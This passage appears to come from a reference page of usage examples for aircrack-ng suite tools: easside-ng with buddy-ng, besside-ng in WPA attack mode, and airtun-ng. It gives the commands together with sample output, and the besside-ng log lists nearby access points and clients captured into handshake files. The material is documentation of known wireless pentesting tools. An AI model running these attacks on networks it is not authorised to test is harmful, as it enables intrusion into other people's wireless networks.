 ### easside-ng Usage Example <a href="#easside-ng-usage-example" id="easside-ng-usage-example"></a>

First, run buddy-ng, then launch the Easside-ng attack, specifying as many of the options as you can.

```
:~# buddy-ng
Waiting for connexion
```

```
:~# easside-ng -v de:ad:be:ef:ca:fe -m 3c:46:d8:4e:ef:aa -s 127.0.0.1 -f wlan0mon -c 6
Setting tap MTU
Sorting out wifi MAC
```

### besside-ng <a href="#besside-ng" id="besside-ng"></a>

Attack WPA only (`-W`), display verbose output (`-v`) and use monitor mode interface `wlan0mon`.

```
:~# besside-ng -W -v wlan0mon
[18:39:34] mac 3c:46:d8:4e:ef:aa
[18:39:34] Let's ride
[18:39:34] Appending to wpa.cap
[18:39:34] Appending to wep.cap
[18:39:34] Logging to besside.log
[18:39:35] Found AP 44:3a:cb:38:51:42 [watwutwot] chan 1 crypto WPA dbm -49
[18:39:35] Found AP 4c:8b:30:83:ed:91 [TELUS3079-2.4G] chan 1 crypto WPA dbm -71
[18:39:35] Found AP 1c:87:2c:d3:34:18 [Kuroki] chan 3 crypto WPA dbm -89
[18:39:37] Found AP 4c:8b:30:24:71:75 [SAMUEL9] chan 8 crypto WPA dbm -73
[18:39:37] Found AP 0c:51:01:e6:01:c4 [fbi-van-24] chan 11 crypto WPA dbm -46
[18:39:37] Found AP 70:f1:96:8e:5c:02 [TELUS0455-2.4G] chan 11 crypto WPA dbm -78
[18:39:38] Found client for network [Kuroki] 90:06:28:cb:0f:f3
[18:39:41] Found AP f0:f2:49:3c:ec:a8 [fbi-van-24] chan 1 crypto WPA dbm -49
[18:39:42] Found AP bc:4d:fb:2c:6d:88 [SHAW-2C6D80] chan 6 crypto WPA dbm -77
[18:39:42] Found client for network [SHAW-2C6D80] 64:5a:04:98:e1:62
[18:39:43] Found AP 10:78:5b:e9:a4:e2 [TELUS2151] chan 11 crypto WPA dbm -49
[18:39:43] Found client for network [fbi-van-24] 60:6b:bd:5a:b6:6c
```

### airtun-ng Usage Examples <a href="#airtun-ng-usage-examples" id="airtun-ng-usage-examples"></a>

#### wIDS <a href="#wids" id="wids"></a>

Specify the BSSID of the access point you wish to monitor (`-a DE:AD:BE:EF:CA:FE`) and its WEP key (`-w 1234567890`).

```
:~# airtun-ng -a DE:AD:BE:EF:CA:FE -w 1234567890 wlan0mon
created tap interface at0
WEP encryption specified. Sending and receiving frames through wlan0mon.
FromDS bit set in all frames.
```
